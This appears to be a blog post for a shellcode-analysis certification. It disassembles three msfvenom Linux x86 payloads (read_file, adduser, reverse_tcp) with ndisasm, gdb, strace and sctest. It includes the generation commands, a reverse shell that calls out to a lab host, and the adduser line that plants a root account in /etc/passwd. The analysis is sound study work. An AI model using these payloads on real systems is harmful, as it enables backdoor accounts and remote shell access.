


# Analyzing shellcode generated by msfvenom

In this article, I will analyse three shellcode samples generated by msfvenom, specifically:

- linux/x86/read_file
- linux/x86/adduser
- linux/x86/shell/reverse_tcp

```
msfvenom --list payloads -a x86 --platform linux
```

Let's see if there is something new we can learn from these samples :)


## Analyzing linux/x86/read_file

First, we generate the executable like so:

```
msfvenom -p linux/x86/read_file -a x86 --platform linux PATH=/etc/passwd FD=2 -f elf -o read_file
```

I set the payload options `PATH` and `FD` to `/etc/passwd` and `2`. Executing the program outputs the contents of `/etc/passwd`.

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_5$ ./read_file
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
...
```

Now that we know that the payload works, we can start analyzing it using a few simple tools.

With `ndisasm` we can disassemble the binary and analyze the assembly code.

```asm
dubs3c@slae:~/SLAE/EXAM/github/assignment_5$ msfvenom -p linux/x86/read_file -a x86 --platform linux PATH=/etc/passwd FD=2 -f raw | ndisasm -u -
No encoder specified, outputting raw payload
Payload size: 73 bytes

00000000  EB36              jmp short 0x38
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB02000000        mov ebx,0x2
0000002A  CD80              int 0x80
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
00000038  E8C5FFFFFF        call dword 0x2
0000003D  2F                das
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  7061              jo 0xa5
00000044  7373              jnc 0xb9
00000046  7764              ja 0xac
00000048  00                db 0x00
```

Looking at the assembly output we can immediately recognize kernel interrupt instructions *(int x80)*, meaning the program is making use of syscalls. The specific syscall being called is often defined in `eax` and any arguments are placed in `ebx, ecx, edx`.

The first instruction is a jump to `0x38`, following the jump to address `00000038` we see that the next instruction is `call dword 0x2`. A `call` instruction will push the address of the next instruction to the stack. The call takes us back to the beginning of the shellcode, next instruction is `mov eax, 0x5` at address `00000002`. Placing `0x5` in `eax` specifies which syscall to execute. Checking in `usr/include/i386-linux-gnu/asm/unistd_32.h` which syscall corresponds to `0x5` returned:

```
#define __NR_restart_syscall 0
#define __NR_exit 1
#define __NR_fork 2
#define __NR_read 3
#define __NR_write 4
#define __NR_open 5
#define __NR_close 6
#define __NR_waitpid 7
#define __NR_creat 8
#define __NR_link 9
#define __NR_unlink 10
...
```

The syscall is `__NR_open 5`. Running `man 2 open` reveals the following syntax for open:

```c
[...]
int open(const char *pathname, int flags);
int open(const char *pathname, int flags, mode_t mode);
[...]
```

The first argument is the file path, next two arguments are flags and which mode that should be used. The `pop ebx` instruction pops the address on top of the stack into the `ebx` register. Now what does this address point to? Well, let's check what the hex values after the call instruction converts to:

```
2F 657463 2F 7061 7373 7764 00 = /etc/passwd\0
```

The file that we want to open :)

```asm
00000002  B805000000        mov eax,0x5     ; open() syscall
00000007  5B                pop ebx         ; filepath to open
00000008  31C9              xor ecx,ecx     ; zero
0000000A  CD80              int 0x80        ; execute syscall
```

The next argument (flags) is 0 because `xor ecx, ecx` returns zero. Finally the syscall is executed and the result is stored in `eax`, which is a file descriptor.


Next section actually reads the contents of the file. This is done by moving the previous result (the file descriptor) into `ebx` which is the first argument for the READ syscall. `0x3` which corresponds to the `read()` syscall, is placed in `eax`. `ecx` contains the address where the contents will be stored, while `edx` indicates how many bytes to read, which is this case is 4096 (0x1000). `READ` will return the number of bytes read into `eax`.

```asm
0000000C  89C3              mov ebx,eax         ; FD from open()
0000000E  B803000000        mov eax,0x3         ; read() syscall
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi         ; where to store contents
00000017  BA00100000        mov edx,0x1000      ; read 4096 bytes
0000001C  CD80              int 0x80            ; execute syscall
```

The final section writes the contents to `STDOUT` and then exits the program. The first four instructions sets up the `write()` syscall by placing `0x4` into `eax`, setting the first argument to `0x2` which is STDOUT and finally sets how many bytes to write in `edx`. The following three instructions simply exits the program by setting `eax` to the EXIT syscall.

```asm
0000001E  89C2              mov edx,eax         ; bytes read from read() syscall
00000020  B804000000        mov eax,0x4         ; write() syscall
00000025  BB02000000        mov ebx,0x2         ; write to STDOUT
0000002A  CD80              int 0x80            ; execute syscall
0000002C  B801000000        mov eax,0x1         ; exit() syscall
00000031  BB00000000        mov ebx,0x0         ; no error
00000036  CD80              int 0x80            ; execute syscall
```

You can also inspect the binary by running it with `strace`, which shows you all the functions invocations and values:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_5$ strace ./read_file
execve("./read_file", ["./read_file"], [/* 22 vars */]) = 0
open("/etc/passwd", O_RDONLY)           = 3
read(3, "root:x:0:0:root:/root:/bin/bash\n"..., 4096) = 1888
write(2, "root:x:0:0:root:/root:/bin/bash\n"..., 1888root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
[...]
```

Now we have finished analyzing the first shellcode created by msfvenom, let's move on to the next one!

## linux/x86/adduser

Next payload generated by `msfvenom` is the `adduser` shellcode. Let's start by examining the first five instructions.

```asm
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E828000000        call dword 0x53
0000002B  6D                insd
0000002C  657461            gs jz 0x90
0000002F  7370              jnc 0xa1
00000031  6C                insb
00000032  6F                outsd
00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B  736A              jnc 0xa7
0000003D  3470              xor al,0x70
0000003F  3449              xor al,0x49
00000041  52                push edx
00000042  633A              arpl [edx],di
00000044  303A              xor [edx],bh
00000046  303A              xor [edx],bh
00000048  3A2F              cmp ch,[edi]
0000004A  3A2F              cmp ch,[edi]
0000004C  62696E            bound ebp,[ecx+0x6e]
0000004F  2F                das
00000050  7368              jnc 0xba
00000052  0A598B            or bl,[ecx-0x75]
00000055  51                push ecx
00000056  FC                cld
00000057  6A04              push byte +0x4
00000059  58                pop eax
0000005A  CD80              int 0x80
0000005C  6A01              push byte +0x1
0000005E  58                pop eax
0000005F  CD80              int 0x80
```

We can see that the last instruction is a kernel interrupt instruction, indicating that a syscall is going be made. The syscall number is placed in `eax`. The value is 0x46 which first pushed onto the stack, which is immediately poped into `eax`. By looking in `/usr/include/i386-linux-gnu/asm/unistd_32.h` we can see which syscall corresponds to `46`.

```asm
00000000  31C9              xor ecx,ecx         ; zero out ecx
00000002  89CB              mov ebx,ecx         ; ebx is now zero
00000004  6A46              push byte +0x46
00000006  58                pop eax             ; setgid() syscall
00000007  CD80              int 0x80            ; execute syscall
```

As we can see below, it's `setgid()`. 

```
#define __NR_prof 44
#define __NR_brk 45
#define __NR_setgid 46
#define __NR_getgid 47
#define __NR_signal 48
```

Running `man 2 setgid` tells us the syntax of the function and its description. The function only has one argument which is set to zero which we can see in the first two instructions.

```
[...]
SYNOPSIS
       #include <sys/types.h>
       #include <unistd.h>

       int setgid(gid_t gid);

DESCRIPTION
       setgid() sets the effective group ID of the calling process.  If the caller is the superuser, the real GID and saved set-group-ID are also set.
[...]
```

The next section has a little more going on, we can see that there are twelve bytes being pushed onto the stack. Decoding `2f6574632f2f706173737764` reveals `/etc//passwd`. The first instruction also pushes `0x5` onto the stack, which is again immediately poped into `eax`. We know from the previous shellcode that this value corresponds to the syscall `open()`. Now it's clear that this section opens the file `/etc/passwd` and returns a file descriptor, as seen in the previous payload.


```asm
00000009  6A05              push byte +0x5
0000000B  58                pop eax                 ; open() syscall
0000000C  31C9              xor ecx,ecx             ; zero out ecx
0000000E  51                push ecx                ; null terminator
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f   ; etc//passwd
0000001E  89E3              mov ebx,esp             ; ebx points to filepath
00000020  41                inc ecx                 ; increment ecx, is now 1
00000021  B504              mov ch,0x4              ; move 0x4 to ecx
00000023  CD80              int 0x80                ; execute syscall
```

Now comes the juicy part, modifying `/etc/passwd`. Everything after address `00000026` looks like gibberish, and the fact that there is a `call` instruction makes me believe that this is a call-pop technique that we have seen in the previous example. For this last part, I will use GDB to analyze how the program adds a new user to the system.

```asm
00000025  93                xchg eax,ebx        ; change the value in eax to ebx and vice verca. ebx now contains the FD
00000026  E828000000        call dword 0x53
0000002B  6D                insd
0000002C  657461            gs jz 0x90
0000002F  7370              jnc 0xa1
00000031  6C                insb
00000032  6F                outsd
00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B  736A              jnc 0xa7
0000003D  3470              xor al,0x70
0000003F  3449              xor al,0x49
00000041  52                push edx
00000042  633A              arpl [edx],di
00000044  303A              xor [edx],bh
00000046  303A              xor [edx],bh
00000048  3A2F              cmp ch,[edi]
0000004A  3A2F              cmp ch,[edi]
0000004C  62696E            bound ebp,[ecx+0x6e]
0000004F  2F                das
00000050  7368              jnc 0xba
00000052  0A598B            or bl,[ecx-0x75]
00000055  51                push ecx
00000056  FC                cld
00000057  6A04              push byte +0x4
00000059  58                pop eax
0000005A  CD80              int 0x80
```

The binary is stripped from any debug symbols, but we can use `readelf` to get the entry point of the program. With this information we can debug the program.

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_5$ readelf -h add_user
ELF Header:
  Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00
  Class:                             ELF32
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Intel 80386
  Version:                           0x1
  Entry point address:               0x8048054
  Start of program headers:          52 (bytes into file)
  Start of section headers:          0 (bytes into file)
  Flags:                             0x0
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         1
  Size of section headers:           0 (bytes)
  Number of section headers:         0
  Section header string table index: 0
```

Loading the binary with GDB and setting necessary breakpoints gives shows us the disassembled binary.

```asm
dubs3c@slae:~/SLAE/EXAM/github/assignment_5$ gdb -q add_user
Reading symbols from /home/dubs3c/SLAE/EXAM/github/assignment_5/add_user...(no debugging symbols found)...done.
(gdb) b *0x8048054
Breakpoint 1 at 0x8048054
(gdb) r
Starting program: /home/dubs3c/SLAE/EXAM/github/assignment_5/add_user

Breakpoint 1, 0x08048054 in ?? ()
(gdb) disas 0x8048054, 0x8048054+97
Dump of assembler code from 0x8048054 to 0x80480b5:
=> 0x08048054:  xor    ecx,ecx
   0x08048056:  mov    ebx,ecx
   0x08048058:  push   0x46
   0x0804805a:  pop    eax
   0x0804805b:  int    0x80
   0x0804805d:  push   0x5
   0x0804805f:  pop    eax
   0x08048060:  xor    ecx,ecx
   0x08048062:  push   ecx
   0x08048063:  push   0x64777373
   0x08048068:  push   0x61702f2f
   0x0804806d:  push   0x6374652f
   0x08048072:  mov    ebx,esp
   0x08048074:  inc    ecx
   0x08048075:  mov    ch,0x4
   0x08048077:  int    0x80
   0x08048079:  xchg   ebx,eax
   0x0804807a:  call   0x80480a7
   0x0804807f:  ins    DWORD PTR es:[edi],dx
   0x08048080:  gs
   0x08048081:  je     0x80480e4
   0x08048083:  jae    0x80480f5
   0x08048085:  ins    BYTE PTR es:[edi],dx
   0x08048086:  outs   dx,DWORD PTR ds:[esi]
   0x08048087:  imul   esi,DWORD PTR [edx+edi*1+0x41],0x49642f7a
   0x0804808f:  jae    0x80480fb
   0x08048091:  xor    al,0x70
   0x08048093:  xor    al,0x49
   0x08048095:  push   edx
   0x08048096:  arpl   WORD PTR [edx],di
   0x08048098:  xor    BYTE PTR [edx],bh
   0x0804809a:  xor    BYTE PTR [edx],bh
   0x0804809c:  cmp    ch,BYTE PTR [edi]
   0x0804809e:  cmp    ch,BYTE PTR [edi]
   0x080480a0:  bound  ebp,QWORD PTR [ecx+0x6e]
   0x080480a3:  das
   0x080480a4:  jae    0x804810e
   0x080480a6:  or     bl,BYTE PTR [ecx-0x75]
   0x080480a9:  push   ecx
   0x080480aa:  cld
   0x080480ab:  push   0x4
   0x080480ad:  pop    eax
   0x080480ae:  int    0x80
   0x080480b0:  push   0x1
   0x080480b2:  pop    eax
   0x080480b3:  int    0x80
End of assembler dump.
(gdb)
```

We are interested in the following instruction `0x0804807a:  call   0x80480a7`. Let's set a breakpoint and step to the next instruction to see where we land!

```
(gdb) b *0x0804807a
Breakpoint 2 at 0x804807a
(gdb) c
Continuing.

Breakpoint 2, 0x0804807a in ?? ()
(gdb) ni
0x080480a7 in ?? ()
(gdb) x/8i $pc                                                                                                                        => 0x80480a7:   pop    ecx
   0x80480a8:   mov    edx,DWORD PTR [ecx-0x4]
   0x80480ab:   push   0x4
   0x80480ad:   pop    eax      ; write() syscall
   0x80480ae:   int    0x80     ; execute syscall
   0x80480b0:   push   0x1
   0x80480b2:   pop    eax      ; exit() syscall
   0x80480b3:   int    0x80     ; execute syscall, exit program
(gdb) ni
0x080480a8 in ?? ()
(gdb) x/s  $ecx
0x804807f:      "metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh\nY\213Q\374j\004Xj\001X"
(gdb) x/x $ecx-4
0x804807b:      0x28
(gdb)
```

As can be seen in the above GDB output, the gibberish data was actually a string containing the new username and password. This string will be written to `/etc/passwd`. The string was popped into `ecx` because of the call instruction that pushed the address of the following instruction onto the stack. `edx` contains the amount of bytes to write, the instruction that computes this is at address `0x80480a8`. Completing the program inserts a new user called metasploit (password is metasploit) to the system:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_5$ grep metasploit /etc/passwd
metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh
```

Should be noted that the binary needs to be run as root, since it's adding a root user.

## linux/x86/shell/reverse_tcp

For the final paylaod, we'll analyze `linux/x86/shell/reverse_tcp` which can be generated with:

```
$ msfvenom -p linux/x86/shell/reverse_tcp -a x86 --platform linux lhost=192.168.1.20 lport=1337 -f elf -o build/reverse_tcp
```

A reverse shell will send a local shell to a remote server, often controlled by an attacker. Let's begin analyzing with `ndisasm` again.

```asm
dubs3c@slae:~/SLAE/EXAM/github/assignment_5$ msfvenom -p linux/x86/shell/reverse_tcp -a x86 --platform linux lhost=192.168.1.20 lport=1337 -f raw | ndisasm -u -
No encoder specified, outputting raw payload
Payload size: 123 bytes

00000000  6A0A              push byte +0xa
00000002  5E                pop esi                 ; 10 connection attempts
00000003  31DB              xor ebx,ebx
00000005  F7E3              mul ebx
00000007  53                push ebx                ; socket protocol: 0
00000008  43                inc ebx                 ; SYS_SOCKET
00000009  53                push ebx                ; socket type: SOCK_STREAM = 1
0000000A  6A02              push byte +0x2          ; socket domain: PF_INET = 2
0000000C  B066              mov al,0x66             ; socketcall()
0000000E  89E1              mov ecx,esp             ; socket() arguments used in second parameter for socketcall
00000010  CD80              int 0x80
00000012  97                xchg eax,edi
00000013  5B                pop ebx
00000014  68C0A80114        push dword 0x1401a8c0   ; 192.168.1.20
00000019  6802000539        push dword 0x39050002   ; 1337
0000001E  89E1              mov ecx,esp             ; sockaddr struct
00000020  6A66              push byte +0x66         ; socketcall()
00000022  58                pop eax
00000023  50                push eax
00000024  51                push ecx
00000025  57                push edi
00000026  89E1              mov ecx,esp             ; connect() arguments used in second parameter for socketcall
00000028  43                inc ebx                 ; SYS_CONNECT
00000029  CD80              int 0x80                ; Execute syscall
0000002B  85C0              test eax,eax            ; Test if connect() returned success
0000002D  7919              jns 0x48                ; If not zero, jump to 00000048
0000002F  4E                dec esi                 ; Decrease esi
00000030  743D              jz 0x6f                 ; If zero, exit program
00000032  68A2000000        push dword 0xa2
00000037  58                pop eax                 ; syscall sys_nanosleep 162
00000038  6A00              push byte +0x0          ; timespec structure tv_nsec
0000003A  6A05              push byte +0x5          ; timespec structure tv_sec -> Sleep 5 seconds
0000003C  89E3              mov ebx,esp             ; ebx points to timespec structure
0000003E  31C9              xor ecx,ecx             ; last argument for sys_nanosleep is zero
00000040  CD80              int 0x80                ; Execute syscall
00000042  85C0              test eax,eax
00000044  79BD              jns 0x3                 ; if not zero jump to 00000003
00000046  EB27              jmp short 0x6f          ; exit program
00000048  B207              mov dl,0x7              ; reverse shell success fully connected. 7 -> read,write,execute
0000004A  B900100000        mov ecx,0x1000          ; size_t len 4096
0000004F  89E3              mov ebx,esp             ; *addr = points to top of the stack
00000051  C1EB0C            shr ebx,0xc             ; shift ebx 12 bytes to the right
00000054  C1E30C            shl ebx,0xc             ; shift ebx 12 bytes to the left
00000057  B07D              mov al,0x7d             ; sys_mprotect 125
00000059  CD80              int 0x80                ; Execute syscall
0000005B  85C0              test eax,eax            ; Test if mprotect() returned success
0000005D  7810              js 0x6f                 ; If zero, exit program
0000005F  5B                pop ebx                 ; file descriptor for read()
00000060  89E1              mov ecx,esp             ; move stack pointer to ecx = void *buf
00000062  99                cdq                     ; 
00000063  B224              mov dl,0x24             ; size_t count = 36 bytes
00000065  B003              mov al,0x3              ; sys_read 03
00000067  CD80              int 0x80                ; Execute syscall
00000069  85C0              test eax,eax            ; Test if read() returned success
0000006B  7802              js 0x6f                 ; If not zero, exit program
0000006D  FFE1              jmp ecx                 ; Loop back to ecx
0000006F  B801000000        mov eax,0x1             ; sys_exit 01
00000074  BB01000000        mov ebx,0x1             ; Set return value to error
00000079  CD80              int 0x80                ; Execute syscall
```

Compared to other common reverse shell payloads, this one is a little bit different because it performs error checking after each syscall. If an error is detected, simply exit the program. In addition to error checking, it contains a few other features as well. The program will try to connect 10 times before it exits. Between each connection attempt it will also sleep for 5 seconds. Once a connection has been made, `mprotect()` is called marking the top of the stack readable, writable and executable for the process's memory pages.

We can dynamically analyse the payload using `strace` to see which system calls are being made. Because this payload expects shellcode as input, I simply used metasploit's `exploit/multi/handler` to listen for connections. The image below shows `strace` on the left and metasploit on the right.

<center>

</center>

The green line shows the shellcode received from metasploit. Following the `strace` output, we can see that the shellcode performs an `execve()` syscall, executing `/bin/sh` and finally running the command `id`, sent from metasploit's terminal.

Another tool we can use for analyzing shellcode is [sctest](https://www.aldeid.com/wiki/Libemu/sctest) which can be used for emulating shellcode. Running the following commands will create a graphical image showing which syscalls are being made.

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_5$ msfvenom -p linux/x86/shell/reverse_tcp -a x86 --platform linux lhost=192.168.1.20 lport=1337 -f raw | ~/SLAE/libemu/tools/sctest/sctest -vvv -Ss 100000 -G reverse_tcp.dot
dubs3c@slae:~/SLAE/EXAM/github/assignment_5$ dot reverse_tcp.dot -Tpng -o reverse_tcp.png
```

The generated image:

<center>

</center>

In addition to generating images, `sctest` will also generate some C code based on the structures used by each syscall. For example, the C code below corresponds to creating a `socket` and then calling the `connect` syscall. We can also see the configured port and IP address.

```c
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe =>
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 14597 (port=1337);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 335653056 (host=192.168.1.20);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
```

That's it, this was a fun payload to dissect :)

---
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[https://www.pentesteracademy.com/course?id=3](https://www.pentesteracademy.com/course?id=3)

Student ID: SLAE-1490

